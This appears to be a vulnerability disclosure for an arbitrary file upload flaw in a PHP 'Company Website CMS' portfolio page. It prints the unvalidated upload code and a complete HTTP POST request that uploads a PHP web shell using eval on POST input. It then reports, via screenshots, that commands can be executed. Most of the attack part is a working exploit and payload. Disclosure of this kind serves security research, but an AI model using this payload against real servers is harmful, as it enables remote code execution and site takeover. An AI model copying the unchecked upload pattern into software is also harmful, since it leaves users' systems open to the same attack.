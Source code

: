 # Company Website CMS

Company Website CMS creates /dashboard/Portfolio pages with unlimited back-end code, resulting in arbitrary file upload vulnerabilities.

The back-end code is:

```php
$uploads_dir = 'uploads/portfolio';

        $tmp_name = $_FILES["ufile"]["tmp_name"];
        // basename() may prevent filesystem traversal attacks;
        // further validation/sanitation of the filename may be appropriate
        $name = basename($_FILES["ufile"]["name"]);
        $random_digit=rand(0000,9999);
        $new_file_name=$random_digit.$name;

        move_uploaded_file($tmp_name, "$uploads_dir/$new_file_name");
```

It can be seen that there is an unlimited file upload, only the file name is concatenated by random values and then moved.

The upload page is:

![image-20250309215745498](https://fpc-mybucket.oss-cn-beijing.aliyuncs.com/images/202503092157549.png)

Upload file:

![image-20250309215920374](https://fpc-mybucket.oss-cn-beijing.aliyuncs.com/images/202503092159410.png)

Use payload as:

```
POST /vogue/dashboard/createportfolio HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=----geckoformboundaryafbda5700eee89a77231823337f34d28
Content-Length: 839
Origin: http://127.0.0.1
Connection: close
Referer: http://127.0.0.1/vogue/dashboard/createportfolio
Cookie: PHPSESSID=8udk6re20tpda96ncs7of8bb94
Upgrade-Insecure-Requests: 1
Priority: u=0, i

------geckoformboundaryafbda5700eee89a77231823337f34d28
Content-Disposition: form-data; name="port_title"

file upload text222222222222
------geckoformboundaryafbda5700eee89a77231823337f34d28
Content-Disposition: form-data; name="port_desc"

uploaduploaduploaduploaduploaduploadupload
------geckoformboundaryafbda5700eee89a77231823337f34d28
Content-Disposition: form-data; name="port_detail"

uploaduploaduploaduploaduploaduploaduploaduploadupload
------geckoformboundaryafbda5700eee89a77231823337f34d28
Content-Disposition: form-data; name="ufile"; filename="text.php"
Content-Type: application/octet-stream

<?php echo "portfolio"; @eval($_POST[123]); ?>
------geckoformboundaryafbda5700eee89a77231823337f34d28
Content-Disposition: form-data; name="save"


------geckoformboundaryafbda5700eee89a77231823337f34d28--

```

After uploading the file, you can see that the normal icon content in the foreground has been pushed to the side:

![image-20250309220034549](https://fpc-mybucket.oss-cn-beijing.aliyuncs.com/images/202503092200619.png)

But here is a little messy, you can directly look at the source code and search keywords:
![image-20250309182520661](https://fpc-mybucket.oss-cn-beijing.aliyuncs.com/images/202503092200009.png)

Also get the file name, and then access the command can be executed:

![image-20250309182556560](https://fpc-mybucket.oss-cn-beijing.aliyuncs.com/images/202503092200007.png)

————————